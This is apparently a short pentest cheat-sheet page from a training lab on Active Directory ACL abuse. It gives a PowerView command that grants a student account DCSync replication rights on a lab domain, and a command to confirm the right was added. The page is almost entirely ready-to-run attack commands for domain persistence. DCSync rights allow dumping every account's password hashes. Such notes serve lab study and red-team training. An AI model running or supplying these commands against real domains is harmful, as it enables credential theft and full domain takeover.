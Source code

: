 # ACL

## DC Sync

Using PowerView

Add user replication permission:

```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Check if worked:

{% code overflow="wrap" %}
```powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"} 
```
{% endcode %}
